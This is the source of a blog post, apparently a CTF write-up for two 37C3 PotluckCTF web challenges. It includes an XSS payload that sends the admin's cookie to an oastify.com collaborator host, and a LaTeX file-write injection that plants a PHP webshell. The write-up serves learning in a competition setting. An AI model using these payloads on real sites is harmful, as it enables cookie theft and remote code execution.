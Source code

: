 ```yaml
---
layout: post
title: PotluckCTF 37C3 - Challenges/Writeups
categories: [CTF Jeopardy]
tags: [ctf jeopardy,web,cookies,xss,latex,rce]
permalink: /posts/37c3potluckctf
img_path: /images/ctfs/37c3potluckctf/
datafile: 37c3potluckctf
image:
  path: icon.png
---
```


My team participated in the 37C3 PotluckCTF and got one challenge, though I personally got painfully close to another one... The following is a writeup/walkthrough of how each flag was grabbed and the thought process for each.

You can join the Discord community for this CTF (with more writeups!) [here](https://discord.gg/nFQHHjCmU3).

## web/Encoderchef (161 solves)
Created by: `ntomsic`

> I heard Cyberchef is monitored by GCHQ so I am trying to build my own version. It is still under construction so if you see any problems with the site just send a link to the admin and they will have a look :) // (Flag is in admin cookie)

Our site is a converter of text to various formats, like base64, hex, binary, etc.

![Converter](encoderchef_1.png)

We are also given the source code of the page, aswell as an 'admin' page. This 'admin' page has a URL input for the admin to visit.

![Admin URL Visiting Page](encoderchef_2.png)

If we can find an exploit to steal the admin's cookies (as they said in the description). We get the flag!

```php
$output = "Example output";
if ((isset($_GET["input"]) && !is_null($_GET["input"])) && (isset($_GET["encoding"]) && !is_null($_GET["encoding"]))){
	$input = base64_decode($_GET["input"]);

	if($input === false){
		$output = "Invalid input";
	} else {
		switch ($_GET["encoding"]) {
			case "base64":
				$output = base64_encode($input);
				break;
```
A portion of the code catches my eye, specifically the base64 input. If we can put in a base64 input that decodes to HTML tags, we can cause an XSS!

Payload:

```html
</textarea>
<script>
i=document.createElement("img");
i.src="https://******************************.oastify.com?c="+btoa(document.cookie);
document.body.appendChild(i);
</script>
<textarea>
```

Encoding our payload with Base64 and then URL encoding it, and making a final url gives us this: `http://[url]:31337/?encoding=base64&input=[payload]`

And sending it to the admin, sends us back our Base64 encoded cookies with our flag!

Flag: <mark>flag="potluck{uu_make_me_go_crazy}"</mark>

**Files:** None provided :(

## web/Santify (58 solves)
Created by: `13x1`
> I found this shop that claims to provide ""delivery via reindeer sleigh"". I ordered a few things, but the cards did not arrive on time! Please find out what went wrong.<br>Anyway, check out their web page<br>Note: Any accounts named ADMIN, BOT or similar are regular users and not part of the challenge, please ignore them


**I didn't completely solve this challenge during the CTF, but got painfully close...**

The card creation page is the following:

![Card Creation](santify_1.png)

The header text is of key importance, as it mentions `pdflatex`. LaTeX has some interesting capabilities that are listed nicely on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX Injection).

Injecting some math operation in LaTeX, I try to read a 'flag'...

![LFI Attempt](santify_2.png)

... Fair enough.

I found that we have the capabilites to write files, by doing the following.

```latex
\newwrite\outfile
\openout\outfile=test.log
\write\outfile{test!}
\closeout\outfile
```

Looking at our LaTeX log were given where the files are uploaded, from there we can look at our uploaded file. Cool, now what...

We can't really 'read' the binary as LaTeX isn't very good at handling extended unicode without importing packages, and trying to run the command injection payloads fails as they are using the `-no-shell-escape` flag, which restricts usage of `/write18{cmd}`.

**This part I did not get during the competition.**

What I needed to do was write a PHP webshell, as the website is run on PHP which can be seen in file names in other portions of the site (index.php, send-card.php, render-LaTeX.php, etc.).

```latex
\newwrite\outfile
\openout\outfile=cmd.php
\write\outfile{<?php system("/app/readflag");}
\closeout\outfile
```

Now you visit the endpoint it was uploaded to (`/images/<random guid>/cmd.php`) you will see the flag.

**Files:** None provided :(


## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

## Unsolved & Challenge Archival
A list of challenges I didn't solve, and the downloads (if provided) to try them for yourself! All challenges are sorted by solve count.
{% assign sortedcategories = site.data.ctfs[page.datafile] | sort: 'name' %}
{% for category in sortedcategories %}
	{% assign solved = 0 %}
	{% for chal in category.chals %}
		{% unless chal.solved %}
			{% assign solved = solved | plus: 1%}
		{% endunless %}
	{% endfor %}
### {{ category.name }} - {{ category.chals.size | minus: solved }}/{{ category.chals.size }} solved
	{% assign sortedchals = category.chals | sort: 'solves' %}
	{% for chal in sortedchals reversed %}
<details markdown="1">
<summary>{%if chal.solved%}✅ {%endif%}{{chal.name}}{%if chal.solves%} - {{chal.solves}} solve{%if chal.solves != 1%}s{%endif%}{%endif%}</summary>
	{%if chal.creator%}
Created by: `{{chal.creator}}`
	{%endif%}
	{%if chal.desc%}
> {{chal.desc}}
	{%endif%}
**Files:** {% if chal.files %}{% for file in chal.files %}[{{ file.name }}]({{ file.url }}) {% endfor %}{% else %}None provided :({% endif %}
</details>
	{% endfor %}
{% endfor %}
